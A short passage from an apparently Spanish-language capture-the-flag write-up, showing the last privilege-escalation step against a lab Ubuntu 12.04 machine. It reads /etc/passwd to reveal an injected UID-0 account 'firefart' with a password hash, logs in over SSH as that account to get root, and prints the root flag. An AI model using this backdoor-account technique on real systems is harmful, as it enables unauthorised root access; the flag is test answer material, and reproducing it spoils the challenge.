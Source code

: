 Si hacemos lo siguiente...

```shell
cat /etc/passwd
```

```
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash
```

Por lo que haremos lo siguiente, habiendo puesto nosotros la `password` a ese usuario creado podremos cambiarnos a el teniendo privilegios de `root`...

```shell
ssh firefart@<IP>
```

Metemos la contraseña...

```
The authenticity of host '192.168.5.156 (192.168.5.156)' can't be established.
ECDSA key fingerprint is SHA256:G8HZXu6SUrixt/obia/CUlTgdJK9JaFKXwulm6uUrbQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.5.156' (ECDSA) to the list of known hosts.
firefart@192.168.5.156's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Mon May 11 11:47:26 2020
firefart@ubuntu:~# 
```

Por lo que ya seriamos `root`, leemos la flag de `root`...

> root.txt (flag)

```
{Sum0-SunCSR-2020_r001}
```

